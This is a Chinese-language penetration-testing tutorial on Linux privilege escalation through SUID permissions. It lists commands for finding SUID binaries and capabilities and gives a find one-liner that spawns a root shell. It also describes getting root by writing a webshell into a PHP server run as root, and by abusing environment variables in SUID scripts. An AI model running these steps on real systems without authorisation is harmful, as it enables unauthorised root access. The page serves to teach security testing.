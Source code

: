 # SUID

SUID可以让调用者以文件拥有者的身份运行该文件, 当在渗透过程中发现带有其他用户SUID权限的可执行文件服务或进程时，可以利用存在错误的权限配置获取其他用户或ROOT的权限

## 可执行文件提权

```sh
find / -user root -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -name '*.txt' 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {}; > /tmp/suid
getcap -r / 2>/dev/null
```

![image-20220531145004731](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220531145004731.png)

创建新的用户 `user1`，使用 Root用户给 find命令加上 SUID权限，当登陆 user1 查看该命令时，可执行文件所有者为 Root，当 `user1` 调用该命令时，实际调用身份为 `Root`

```sh
user1@i-v0nrmv9j:~$ ls /usr/bin/find -all
-rwsr-xr-x 1 root root 199304 Oct 31  2018 /usr/bin/find
```

 <a-alert type="success" message="" description="Linux 提权工具: https://gtfobins.github.io/" showIcon>
</a-alert>
<br/>



![image-20220531150723350](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220531150723350.png)

```sh
find . -exec /bin/sh -p \; -quit
```

![image-20220531151918257](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220531151918257.png)

## 服务相关提权

SUID权限与Web服务相关时, 这里以Root用户开启一个PHP Web服务器

![image-20220531152916676](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220531152916676.png)

![image-20220531153303027](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220531153303027.png)

这里的PHP Web服务由于是Root权限开启的进程，我们可以通过在该Web目录写入 Webshell 命令执行获取Root权限

![image-20220531153753534](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220531153753534.png)

## 利用变量提权

部分脚本中存在获取系统变量来执行时，如果变量可控且为SUID，我们就可以通过该脚本获取Root权限

![image-20220531171136888](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220531171136888.png)

这里简单编写了一个例子，使用 env 中的变量 cmd 来执行命令 /bin/sh 获取可交互 Shell `(真实渗透中只需要注意SUID权限的可执行脚本是否有可控ENV变量)`

![image-20220531171451027](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220531171451027.png) 